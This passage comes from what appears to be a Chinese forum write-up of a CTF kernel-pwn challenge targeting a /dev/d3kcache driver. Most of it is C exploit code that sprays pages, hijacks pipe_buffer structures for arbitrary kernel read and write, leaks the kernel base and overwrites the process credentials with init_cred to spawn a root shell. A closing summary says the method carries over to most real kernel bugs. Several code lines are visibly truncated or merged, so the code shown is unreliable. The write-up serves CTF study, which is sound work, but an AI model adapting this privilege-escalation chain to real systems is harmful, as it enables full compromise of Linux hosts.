 * [//www.52pojie.cn/home.php?mod=space&uid=190858" target="_blank"](https://www.52pojie.cn/home.php?mod=space&uid=190858:href="https) create an isolate namespace

 * note that the caller **SHOULD NOT** be used to get the root, but an operator

 * to perform basic exploiting operations in it only

 */

void unshare_setup(void)

{

    char edit[0x100];

    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);

    write(tmp_fd, "deny", strlen("deny"));

    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);

    snprintf(edit, sizeof(edit), "0 %d 1", getuid());

    write(tmp_fd, edit, strlen(edit));

    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);

    snprintf(edit, sizeof(edit), "0 %d 1", getgid());

    write(tmp_fd, edit, strlen(edit));

    close(tmp_fd);

}

struct page;

struct pipe_inode_info;

struct pipe_buf_operations;

/* read start from len to offset, write start from offset */

struct pipe_buffer {

    struct page *page;

    unsigned int offset, len;

    const struct pipe_buf_operations *ops;

    unsigned int flags;

    unsigned long private;

};

struct pipe_buf_operations {

    /*

     * ->confirm() verifies that the data in the pipe buffer is there

     * and that the contents are good. If the pages in the pipe belong

     * to a file system, we may need to wait for IO completion in this

     * hook. Returns 0 for good, or a negative error value in case of

     * error.  If not present all pages are considered good.

     */

    int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);

    /*

     * When the contents of this pipe buffer has been completely

     * consumed by a reader, ->release() is called.

     */

    void (*release)(struct pipe_inode_info *, struct pipe_buffer *);

    /*

     * Attempt to take ownership of the pipe buffer and its contents.

     * ->try_steal() returns %true for success, in which case the contents

     * of the pipe (the buf->page) is locked and now completely owned by the

     * caller. The page may then be transferred to a different mapping, the
```


```
     * most often used case is insertion into different file address space

     * cache.

     */

    int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);

    /*

     * Get a reference to the pipe buffer.

     */

    int (*get)(struct pipe_inode_info *, struct pipe_buffer *);

};

/**

 * II - interface to interact with /dev/kcache

 */

#define KCACHE_SIZE 2048

#define KCACHE_NUM 0x10

#define KCACHE_ALLOC 0x114

#define KCACHE_APPEND 0x514

#define KCACHE_READ 0x1919

#define KCACHE_FREE 0x810

struct kcache_cmd {
    int idx;
    unsigned int sz;
    void *buf;
};

int dev_fd;

int kcache_alloc(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_ALLOC, &cmd);
}

int kcache_append(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_APPEND, &cmd);
}

int kcache_read(int index, unsigned int size, char *buf)
{
    struct kcache_cmd cmd = {
        .idx = index,
        .sz = size,
        .buf = buf,
    };

    return ioctl(dev_fd, KCACHE_READ, &cmd);
}

int kcache_free(int index)
{
    struct kcache_cmd cmd = {
        .idx = index,
    };

    return ioctl(dev_fd, KCACHE_FREE, &cmd);
}

/**
 * III -  pgv pages sprayer related 
 * not that we should create two process:
 * - the parent is the one to send cmd and get root
 * - the child creates an isolate userspace by calling unshare_setup(),
 *      receiving cmd from parent and operates it only
 */

#define PGV_PAGE_NUM 1000
#define PACKET_VERSION 10
#define PACKET_TX_RING 13

struct tpacket_req {
    unsigned int tp_block_size;
    unsigned int tp_block_nr;
    unsigned int tp_frame_size;
    unsigned int tp_frame_nr;
};

/* each allocation is (size * nr) bytes, aligned to PAGE_SIZE */
struct pgv_page_request {
    int idx;
    int cmd;
    unsigned int size;
    unsigned int nr;
};

/* operations type */
enum {
    CMD_ALLOC_PAGE,
    CMD_FREE_PAGE,
    CMD_EXIT,
};

/* tpacket version for setsockopt */
enum tpacket_versions {
    TPACKET_V1,
    TPACKET_V2,
    TPACKET_V3,
};

/* pipe for cmd communication */
int cmd_pipe_req[2], cmd_pipe_reply[2];

/* create a socket and alloc pages, return the socket fd */
int create_socket_and_alloc_pages(unsigned int size, unsigned int nr)
{
    struct tpacket_req req;
    int socket_fd, version;
    int ret;

    socket_fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    if (socket_fd page: \033[0m%p\n" 
           "\033[34m\033[1m[?] info_pipe_buf->ops: \033[0m%p\n", 
           info_pipe_buf.page, info_pipe_buf.ops);

    if ((size_t) info_pipe_buf.page bufs pointing to itself */
    puts("
-  hijacking the 2nd pipe_buffer on page to itself...");

    evil_pipe_buf.page = info_pipe_buf.page;
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.ops = info_pipe_buf.ops;
    evil_pipe_buf.flags = info_pipe_buf.flags;
    evil_pipe_buf.private = info_pipe_buf.private;

    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i  1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     */

    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;

    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);
        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
        }
        vmemmap_base -= 0x10000000;
    }

    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);

    /* now seeking for the task_struct in kernel memory */
    puts("
-  Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    /**
     * For a machine with MEM less than 256M, we can simply get the:
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * But that's not always accurate, espacially on a machine with MEM > 256M.
     * So we need to find another way to calculate the page_offset_base.
     * 
     * Luckily the task_struct::ptraced points to itself, so we can get the
     * page_offset_base by vmmemap and current task_struct as we know the page.
     * 
     * Note that the offset of different filed should be referred to your env.
     */

    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);
        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */
            && (comm_addr[-57] > 0xffff888000000000) /* task->read_parent */
            && (comm_addr[-56] > 0xffff888000000000)) {  /* task->parent */

            /* task->read_parent */
            parent_task = comm_addr[-57];

            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;
            page_offset_base = (comm_addr[-50]&0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;

            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));

            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",
                   page_offset_base);

            printf("\033[34m\033[1m
-  current task_struct's addr: \033[0m"
                   "0x%lx\n\n", current_task);

            break;
        }
    }
}

/**
 * @brief find the init_task and copy something to current task_struct
*/
void privilege_escalation_by_task_overwrite(void)
{
    /* finding the init_task, the final parent of every task */
    puts("
-  Seeking for init_task...");

    for (;;) {
        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);
        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));

        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);
        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);

        /* task_struct::real_parent */
        if (parent_task == tsk_buf[309]) {
            break;
        }
        parent_task = tsk_buf[309];
    }

    init_task = parent_task;
    init_cred = tsk_buf[363];
    init_nsproxy = tsk_buf[377];

    printf("\033[32m\033[1m[+] Found init_task: \033[0m0x%lx\n", init_task);
    printf("\033[32m\033[1m[+] Found init_cred: \033[0m0x%lx\n", init_cred);
    printf("\033[32m\033[1m[+] Found init_nsproxy:\033[0m0x%lx\n",init_nsproxy);

    /* now, changing the current task_struct to get the full root :) */
    puts("
-  Escalating ROOT privilege now...");

    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));

    tsk_buf[363] = init_cred;
    tsk_buf[364] = init_cred;
    tsk_buf[377] = init_nsproxy;

    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);
    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),
                            &buf[512], 0xff0);

    puts("[+] Done.\n");

    puts("
```


```
-  checking for root...");

    get_root_shell();

}

#define PTE_OFFSET 12

#define PMD_OFFSET 21

#define PUD_OFFSET 30

#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL

#define PTE_MASK (PT_ENTRY_MASK > PTE_OFFSET) & PT_ENTRY_MASK)

#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)

#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)

#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL confirm = (void*)(0xffffffff81a78568 + kernel_offset);

    ops->release = (void*)(0xffffffff816196e6 + kernel_offset);

    for (int i = 0; i ops = ops_addr;

        pbuf = (struct pipe_buffer *)((size_t) pbuf + TRD_PIPE_BUF_SZ);

    }

    evil_2nd_buf.page = info_pipe_buf.page;

    evil_2nd_buf.offset = 0;

    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */

    write(pipe_fd[self_3rd_pipe_pid][1],&evil_4th_buf,sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */

    write(pipe_fd[self_4th_pipe_pid][1],&evil_2nd_buf,sizeof(evil_2nd_buf));

    write(pipe_fd[self_4th_pipe_pid][1], 

          temp_zero_buf, 

          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));

    /* hijack the 3rd pipe to point to 4th pipe */

    write(pipe_fd[self_4th_pipe_pid][1],&evil_3rd_buf,sizeof(evil_3rd_buf));

    /* write data into dst page */

    write(pipe_fd[self_2nd_pipe_pid][1], buf, 0xf00); 

    /* trigger CFI... */

    puts("[=] triggering CFI's detection...\n");

    sleep(5);

    close(pipe_fd[self_2nd_pipe_pid][0]);

    close(pipe_fd[self_2nd_pipe_pid][1]);

}

int main(int argc, char **argv, char **envp)

{

    /**

     * Step.O - fundamental works

     */

    save_status();

    /* bind core to 0 */

    bind_core(0);

    /* dev file */

    dev_fd = open("/dev/d3kcache", O_RDWR);

    if (dev_fd 
```
## 0x03. 总结

在这道 kernel pwn 题目当中我们成功在一个非常极端的环境下完成了内核漏洞利用，如果将官方解在不同漏洞场景下进行推广，得益于 `pipe_buffer` 大小的可调节性以及无需 `bzImage` 信息便能完成提权的便捷性，这个方法可以被很快地应用并推广到绝大部分的漏洞上，并在真实场景下完成漏洞利用

类似的改写 `pipe_buffer.page` 的方法早已被应用到 [https://i.blackhat.com/USA-22/Wednesday/US-22-Jin-Monitoring-Surveillance-Vendors.pdf](https://i.blackhat.com/USA-22/Wednesday/US-22-Jin-Monitoring-Surveillance-Vendors.pdf) 当中，同时 [https://interruptlabs.co.uk/labs/pipe_buffer/](https://interruptlabs.co.uk/labs/pipe_buffer/)
